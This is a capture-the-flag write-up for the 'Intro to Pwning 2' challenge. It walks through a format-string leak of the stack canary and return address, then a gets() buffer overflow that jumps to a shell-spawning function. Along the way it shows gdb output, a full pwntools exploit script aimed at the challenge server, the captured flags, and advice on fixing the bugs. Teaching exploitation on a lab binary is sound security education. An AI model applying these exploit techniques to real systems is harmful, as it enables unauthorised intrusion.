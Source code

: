 # Intro to Pwning 2

When run, the binary first asks us for the password of stage 1.
It then asks for our witch name, which it then prints back to us and then asks us for a magic spell:
```
$ ./pwn2
Enter the password of stage 1:
CSCG{...}
Enter your witch name:
Hermione
┌───────────────────────┐
│ You are a Revenclaw!  │
└───────────────────────┘
Hermione enter your magic spell:
Expelliarmus
~ Protego!
```

Looking at the code we can quickly find two vulnerabilities:
1. All user input is read using the `gets` function, which doesn't have a length limit for the input and can therefore be used for buffer overflows.
2. The binary uses `printf` directly to print the entered name, which among other things allows us to leak data from the stack.

We can also find an unused function `WINgardium_leviosa` which opens a shell:
```cpp
void WINgardium_leviosa() {
    printf("┌───────────────────────┐\n");
    printf("│ You are a Slytherin.. │\n");
    printf("└───────────────────────┘\n");
    system("/bin/sh");
}
```

Looking at the `checksec` output we can see that the binary has everything enabled:
```
$ checksec pwn2
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Because there is a stack canary we can't simply use `gets` to overwrite the return address and jump to `WINgardium_leviosa` but
we can use `printf` to first leak the canary and at the same time find out the base address of the binary to circumvent `PIE`.
Then we can use the second `gets` to overwrite the return address and leave the canary. Because `gets` reads until newlines it also isn't a problem that the canary includes null-bytes.

Using `gdb` and `pwndbg` we can find out that the canary is at position `33` and the return address is at `35` on the stack when `printf` is called in `welcome`:
```
pwndbg> disass welcome
...
   0x0000000000000ce3 <+109>:   call   0x8a0 <printf@plt>
...
pwndbg> b *welcome+109
pwndbg> r
pwndbg> canary
AT_RANDOM = 0x7ffffffee4d8 # points to (not masked) global canary value
Canary    = 0xde09d8f9285a0c00
Found valid canaries on the stacks:
00:0000│   0x7ffffffee028 ◂— 0xde09d8f9285a0c00
pwndbg> stack 50
...
21:0108│          0x7ffffffee028 ◂— 0xde09d8f9285a0c00
22:0110│ rbp      0x7ffffffee030 —▸ 0x7ffffffee050 ◂— 0x0
23:0118│          0x7ffffffee038 —▸ 0x8000dc5 (main+55) ◂— mov    eax, 0 /* 0xff30e800000000b8 */
...
pwndbg> pi 0x21
33
```

Because `printf`'s first six variadic arguments are taken from registers we can leak the canary and return address using `%39$p %41$p` i.e. printing the 39th and 41st arguments to `printf` as pointers which will be the 33rd and 35th value on the stack:

```
Enter your witch name:
%39$p %41$p
┌───────────────────────┐
│ You are a Ravenclaw!  │
└───────────────────────┘
0x444db24d43e12200 0x7f2edd400dc5 enter your magic spell:
```

Taking another look with `gdb` we can also find out the offset between the return address and the `WINgardium_leviosa` function:
```
pwndbg> disass welcome
...
   0x0000000000000cfe <+136>:   ret
...
pwndbg> b *welcome+136
pwndbg> r
pwndbg> stack 1
00:0000│ rsp  0x7ffffffee038 —▸ 0x8000dc5 (main+55) ◂— mov    eax, 0 /* 0xff30e800000000b8 */
pwndbg> p WINgardium_leviosa
$1 = {<text variable, no debug info>} 0x8000b94 <WINgardium_leviosa>
pwndbg> pi 0x8000dc5 - 0x8000b94
561
```

and the offset between the buffer and the canary and return address for the second `gets`, which is `0x108` and `0x118` bytes:
```
pwndbg> disass AAAAAAAA
...
   0x0000000008000d34 <+53>:    call   0x8000900 <gets@plt>
   0x0000000008000d39 <+58>:    lea    rax,[rbp-0x110]
...
pwndbg> b *AAAAAAAA+58
pwndbg> c
Hermione enter your magic spell:
AAAAAAAA
pwndbg> stack 50
00:0000│ rax r8 r10 r11 rsp  0x7ffffffedf20 ◂— 'AAAAAAAA'
...
21:0108│                     0x7ffffffee028 ◂— 0xf4520a17440a6500
22:0110│ rbp                 0x7ffffffee030 —▸ 0x7ffffffee050 ◂— 0x0
23:0118│                     0x7ffffffee038 —▸ 0x8000dcf (main+65) ◂— nop     /* 0x841f0f2e66c3c990 */
```

We also have to start the input for the second `gets` with `"Expelliarmus\0"` because the program
compares the spell we give it and immediately exits if it's not `"Expelliarmus"`.
Luckily `strcmp` stops at null-bytes but `gets` reads until newlines so this is not a problem.

Trying the exploit will now give a `segfault` in `system` because of a misaligned stack
but we can just jump one instruction later into `WINgardium_leviosa` which will skip a `push`
instruction and align the stack correctly.

The final exploit now looks like this:
```python
##!/usr/bin/env python3

from pwn import *

PASSWORD = "CSCG{NOW_PRACTICE_MORE}"
WIN_ADDR = 0xb95
WELCOME_RET = 0xdc5

p = remote("hax1.allesctf.net", 9101)

p.recvuntil("Enter the password of stage 1:\n")
p.sendline(PASSWORD)

p.recvuntil("Enter your witch name:")
p.sendline("#%39$llu|%41$llu#")

p.recvuntil("#")
canary, ret_addr = map(int, p.recvuntil("#")[:-1].split(b"|"))

log.info(f"Leaked stack canary: {canary:#x}")
log.info(f"Leaked ret address: {ret_addr:#x}")

p.recvuntil(":")

ret_addr -= WELCOME_RET

payload = b"Expelliarmus\0".ljust(0x108)
payload += p64(canary)
payload += b"A" * 8
payload += p64(ret_addr + WIN_ADDR)

p.sendline(payload)
p.interactive()
```

And running it gives us a shell and the flag:
```
$ ./exploit.py
[+] Opening connection to hax1.allesctf.net on port 9101: Done
[*] Leaked stack canary: 0x213134df85335a00
[*] Leaked ret address: 0x56318aa0edc5
[*] Switching to interactive mode

~ Protego!
┌───────────────────────┐
│ You are a Slytherin.. │
└───────────────────────┘
$ cat flag
CSCG{NOW_GET_VOLDEMORT}
```

Clearly, it's better to follow the `man`-pages advice and `Never use gets(). [...] Use fgets() instead.`
And of course, letting users control the first argument of `printf` is equally bad.
Instead, `printf("%s", user_input)` should be used. Otherwise, even stack canaries can't help.

Next: [Intro to Pwning 3](intro_pwn3.md)
